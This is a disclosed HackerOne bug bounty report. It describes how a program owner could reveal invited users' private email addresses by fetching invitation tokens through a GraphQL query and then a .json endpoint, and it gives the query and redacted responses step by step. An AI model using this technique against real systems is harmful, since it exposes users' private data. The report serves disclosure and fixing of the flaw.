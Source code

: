 # Customer private program can disclose email any users through invited via username

## Report Details
- **Report ID**: 807448
- **URL**: https://hackerone.com/reports/807448
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-02-28T23:15:43.015Z
- **Disclosed**: 2020-05-15T17:24:34.443Z

## Reporter
- **Username**: haxta4ok00
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
## Summary:
Hey team,This bug could have been used by my calculations a long time ago
## Steps To Reproduce:
1)Go to https://hackerone.com/hackerone_h1p_bbp3/launch
2)Take invite via username
3)Input username , send invite
3.1)When an invite is created, we get a token
4)Now Go use GraphQL query

https://hackerone.com/graphql?

`{"query": "query {team(handle:\\"hackerone_h1p_bbp3\\"){_id,handle,soft_launch_invitations{total_count,nodes{... on InvitationsSoftLaunch{token}}}}}"}`

Answer:

`{"data":{"team":{"_id":"47388","handle":"hackerone_h1p_bbp3","soft_launch_invitations":{"total_count":5,"nodes":[{"token":"████████"},{"token":"███"},{"token":"████"},{"token":"██████"},{"token":"████████"}]}}}}`
████


5)Now check .json - █████████

`{"token":"████████","type":"Invitations::SoftLaunch","auth_option":"has-no-access","email":"████@managed.hackerone.com","status":"valid","expires_at":"2020-03-06T21:33:31.689Z","recipient":{"username":"zebra","profile_picture":"███","url":"https://hackerone.com/zebra"},"open_soft_launch_invitations_count":0}`


`"email":"██████████@managed.hackerone.com"`
██████
6)You need to do this immediately before the user accepts or rejects our request for an invite

Thanks, @haxta4ok00

## Impact

Disclosed email

## Attachments
No attachments
